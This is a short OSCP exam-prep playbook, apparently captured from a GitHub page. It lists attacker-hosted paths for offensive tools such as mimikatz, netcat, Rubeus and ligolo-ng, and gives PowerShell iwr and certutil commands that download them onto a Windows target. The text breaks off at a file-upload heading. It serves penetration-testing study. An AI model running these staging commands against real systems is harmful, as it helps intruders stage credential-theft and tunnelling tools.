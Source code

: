 OSCP Playbook



## General

### Tools Download

```
iwr -uri IP:8080/mimikatz_x64.exe -Outfile C:\Tools\mimikatz.exe

iwr -uri IP:8080/nc.exe -Outfile C:\Tools\nc.exe

IP:8080/ncat
IP:8080/powercat.ps1
IP:8080/nc64.exe

PE
	IP:8080/Privilege_Escalation/linpeas.sh

	IP:8080/Privilege_Escalation/PrivescCheck.ps1
	IP:8080/Privilege_Escalation/winPEASx64.exe

AD
	IP:8080/Active_Directory/SharpHound.ps1
	IP:8080/Active_Directory/PowerView.ps1
	IP:8080/Active_Directory/PowerUp.ps1
	IP:8080/Active_Directory/Rubeus.exe

Tunneling
	IP:8080/Tunnelling/ligolo-ng_agent_0.4.3_win64.exe

```



### File Transfer

start a http server with upload https://gist.github.com/UniIsland/3346170

```
python SimpleHTTPServerWithUpload.py 8080
```



1. win -  downloads files

   ```
   # Powershell
   iwr -Uri http://192.168.45.170/nc.exe -OutFile C:\Windows\Tools\nc.exe
   
   # CMD
   certutil -urlcache -f http://10.10.85.141:1235/hash hash
   ```

2. win - upload files
